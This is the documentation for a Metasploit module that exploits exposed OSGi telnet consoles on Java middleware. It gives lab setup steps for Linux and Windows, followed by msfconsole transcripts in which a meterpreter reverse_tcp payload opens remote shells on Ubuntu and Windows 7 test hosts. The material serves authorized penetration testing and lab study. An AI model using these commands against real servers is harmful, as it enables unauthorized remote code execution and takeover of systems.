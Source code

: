 ## Vulnerable Application

### Description

This module takes advantage of OSGi consoles exposed by some Java-based middleware servers.

The OSGi console is a telnet-based server that can be used for remote debugging and dynamic loading/removal of Java bundles running on an OSGi based server.

### Test setup

#### Linux environment

Follow these steps to run the vulnerable application on a Linux host:

1. Create a test environment directory
`mkdir testenv && cd testenv`
2. Download the setup script
`wget https://gist.githubusercontent.com/QKaiser/66c8a618eef2a7801c0bbb1aa43d724a/raw/e098f6ea31717311bd6ce5b3be94744dddfc2388/setup.sh`
3. Set appropriate permission
`chmod +x setup.sh`
4. Execute setup script
`./setup.sh`
5. Launch the vulnerable application with this command so it listens on port TCP/5555
`java -jar org.eclipse.osgi.jar -console 5555`
6. Verify that the server is running, you should be prompted with `osgi> `
`telnet localhost 5555`
7. From the telnet console, enable the second second server. This one listens on port 2019 by default. Set the IP to an address linked to an external interface if attacker machine is on another host.
`telnetd --ip=127.0.0.1 start`

#### Windows environment

Follow these steps to run the vulnerable application on a Windows host:

1. Download the Eclipse Equinoxe SDK from https://www.eclipse.org/downloads/download.php?file=/equinox/drops/R-Oxygen.2-201711300510/equinox-SDK-Oxygen.2.zip&r=1
2. Create a test directory. Let's name it `osgi_test` for clarity.
3. Create a directory named `configuration` in `osgi_test`
4. Create a file named `config.ini` in your `configuration` directory. The file should contain the following lines only:
```
osgi.bundles=org.eclipse.equinox.console@start, org.apache.felix.gogo.command@start, org.apache.felix.gogo.shell@start, org.apache.felix.gogo.runtime@start
eclipse.ignoreApp=true
osgi.noShutdown=true
```
5. Create an empty `plugins` directory in `osgi_test` directory
6. Extract `plugins/org.apache.felix.gogo.command_(version).jar` from the SDK as `org.apache.felix.gogo.command.jar` in `osgi_test` directory. 
7. Extract `plugins/org.apache.felix.gogo.runtime_(version).jar` from the SDK as `org.apache.felix.gogo.runtime.jar` in `osgi_test` directory.
6. Extract `plugins/org.apache.felix.gogo.shell_(version).jar` from the SDK as `org.apache.felix.gogo.shell.jar` in `osgi_test` directory.
8. Extract `plugins/org.eclipse.equinox.console_(version).jar` from the SDK as `org.eclipse.equinox.console.jar` in `osgi_test` directory.
9. Extract `plugins/org.eclipse.osgi_(version).jar` from the SDK as `org.eclipse.osgi.jar` in `osgi_test` directory.
10. At the end of those steps, your `osgi_test` directory should contain the following items:
```
.
├── configuration
│   └── config.ini
├── org.apache.felix.gogo.command.jar
├── org.apache.felix.gogo.runtime.jar
├── org.apache.felix.gogo.shell.jar
├── org.eclipse.equinox.console.jar
├── org.eclipse.osgi.jar
└── plugins
```
11. Launch the vulnerable application with this command so it listens on port TCP/5555
`java -jar org.eclipse.osgi.jar -console 5555`
12. Verify that the server is running, you should be prompted with `osgi> `
`telnet localhost 5555`
13. From the telnet console, enable the second second server. This one listens on port 2019 by default. Set the IP to an address linked to an external interface if attacker machine is on another host.
`telnetd --ip=127.0.0.1 start`

If you don't want to go through all those steps manually I recommend you to run the setup script on a Linux host, mount the directory on a Windows VM and start from step 11.

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/osgi_console_exec`
  4. Do: `set RHOST 127.0.0.1`
  5. Do: `set RPORT 5555` or `set RPORT 2019`
  6. Do: `check`. The target should appear vulnerable.
  6. Do: `set payload` with the payload of your choosing.
  5. Do: `run`
  5. You should get a shell.

## Options

  **TIME_WAIT** - Time to wait for payload to be executed. The default value is set to 20 seconds.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Ubuntu Linux target:

```
msf5 > use exploit/multi/misc/osgi_console_exec
msf5 exploit(multi/misc/osgi_console_exec) > set RHOST 172.20.10.4
msf5 exploit(multi/misc/osgi_console_exec) > set RPORT 5555
msf5 exploit(multi/misc/osgi_console_exec) > set TARGET 0
msf5 exploit(multi/misc/osgi_console_exec) > set payload linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/osgi_console_exec) > set LHOST 172.20.10.2
msf5 exploit(multi/misc/osgi_console_exec) > set LPORT 4444
msf5 exploit(multi/misc/osgi_console_exec) > run
[*] Exploit running as background job 1.
[*] Started reverse TCP handler on 172.20.10.2:4444
[*] 172.20.10.4:5555 - Accessing the OSGi console ...
[*] 172.20.10.4:5555 - Exploiting...
[*] Sending stage (857352 bytes) to 172.20.10.4
[*] 172.20.10.4:5555 - 172.20.10.4:5555 - Waiting for session...
[*] Meterpreter session 2 opened (172.20.10.2:4444 -> 172.20.10.4:39314) at 2018-02-14 19:17:39 +0100
[*] 172.20.10.4:5555 - Command Stager progress - 100.00% done (763/763 bytes)

msf5 exploit(multi/misc/osgi_console_exec) > sessions -i 2
[*] Starting interaction with 2...
meterpreter > sysinfo
Computer     : 172.20.10.4
OS           : Ubuntu 16.04 (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux

```

### Reverse shell on Windows host

Exploit running against a Windows 7 target:

```
msf5 > use exploit/multi/misc/osgi_console_exec
msf5 exploit(multi/misc/osgi_console_exec) > set RHOST 172.20.10.3
msf5 exploit(multi/misc/osgi_console_exec) > set RPORT 5555
msf5 exploit(multi/misc/osgi_console_exec) > set TARGET 1
msf5 exploit(multi/misc/osgi_console_exec) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/misc/osgi_console_exec) > set LHOST 172.20.10.2
msf5 exploit(multi/misc/osgi_console_exec) > set LPORT 4444
msf5 exploit(multi/misc/osgi_console_exec) > run
[*] Exploit running as background job 2.
[*] Started reverse TCP handler on 172.20.10.2:4444
[*] 172.20.10.3:5555 - Accessing the OSGi console ...
[*] 172.20.10.3:5555 - Exploiting...
[*] 172.20.10.3:5555 - 172.20.10.3:5555 - Waiting for session...
[*] Sending stage (179779 bytes) to 172.20.10.3
[*] Meterpreter session 1 opened (172.20.10.2:4444 -> 172.20.10.3:49365) at 2018-02-14 19:14:15 +0100
msf5 exploit(multi/misc/osgi_console_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : PENTEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
